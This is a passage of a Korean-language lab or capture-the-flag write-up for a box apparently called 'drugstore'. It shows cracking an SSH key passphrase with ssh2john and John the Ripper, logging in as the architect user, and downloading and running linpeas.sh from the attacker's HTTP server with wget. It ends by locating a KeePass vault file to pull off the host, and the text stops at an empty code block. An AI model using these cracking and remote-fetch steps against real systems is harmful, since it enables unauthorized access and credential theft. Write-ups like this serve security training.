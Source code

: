 ```sh
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.31.177.177' (ED25519) to the list of known hosts.
Enter passphrase for key 'architect_id_rsa': 
```

passphrase가 걸려있으므로 이를 크래킹하기 위해 `ssh2john`을 사용하여 개인키 형식을 john 형식으로 변경했고, `johntheripper`를 사용하여 패스워드 크래킹을 성공했다.
```sh
┌──(kali㉿kali)-[~/drugstore]
└─$ ssh2john architect_id_rsa > architect.hash

┌──(kali㉿kali)-[~/drugstore]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt architect.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
casper           (architect_id_rsa)      #architect 개인키 passpharase 패스워드
1g 0:00:00:14 DONE (2024-08-27 04:46) 0.06743g/s 19.42p/s 19.42c/s 19.42C/s barcelona..brenda
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

passphrase 값을 알아냈으므로 ssh를 사용하여 architect유저로 접속 성공했다.
```sh
──(kali㉿kali)-[~/drugstore]
└─$ ssh -i architect_id_rsa architect@172.31.177.177
Enter passphrase for key 'architect_id_rsa':
                            [...]
architect@ip-172-31-177-177:~$
```

### 권한 상승
호스트 침투에 성공했으므로 `linpeas`를 칼리 리눅스에서 업로드 한 뒤 사용하여 권한 상승을 위한 취약점 서칭을 했지만 특별한 취약점은 발견하지 못했고, 수동점검을 수행했으나 마찬가지로 특별한 취약점을 발견하지 못했으나, architect 유저 홈 디렉토리에 `architect-vault.kdbx` 파일을 발견하여 이를 조사하였다.
```sh
┌──(kali㉿kali)-[~/drugstore]
└─$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
172.31.177.177 - - [27/Aug/2024 06:04:28] "GET /linpeas.sh HTTP/1.1" 200 -
---------------------------------------------------------------------------------------------------------------
architect@ip-172-31-177-177:/tmp$ wget http://10.8.0.140:9999/linpeas.sh
--2024-08-27 10:04:52--  http://10.8.0.140:9999/linpeas.sh
Connecting to 10.8.0.140:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 860335 (840K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                     100%[====================================================================================================>] 840.17K  --.-KB/s    in 0.1s    
2024-08-27 10:04:52 (7.61 MB/s) - ‘linpeas.sh’ saved [860335/860335]
architect@ip-172-31-177-177:/tmp$ chmod +x linpeas.sh
architect@ip-172-31-177-177:/tmp$ ./lieneas.sh
---------------------------------------------------------------------------------------------------------------
architect@ip-172-31-177-177:~$ ls
architect-vault.kdbx
```
kdbx 파일 이란 keepass를 사용해 여러 패스워드를 관리하는 패스워드 관리 데이터베이스 파일이다. 이를 사용하려면 `keepassxc`를 사용해야 하므로 일단 `scp`를 사용하여 칼리 리눅스로 파일을 가져왔다.
```sh
```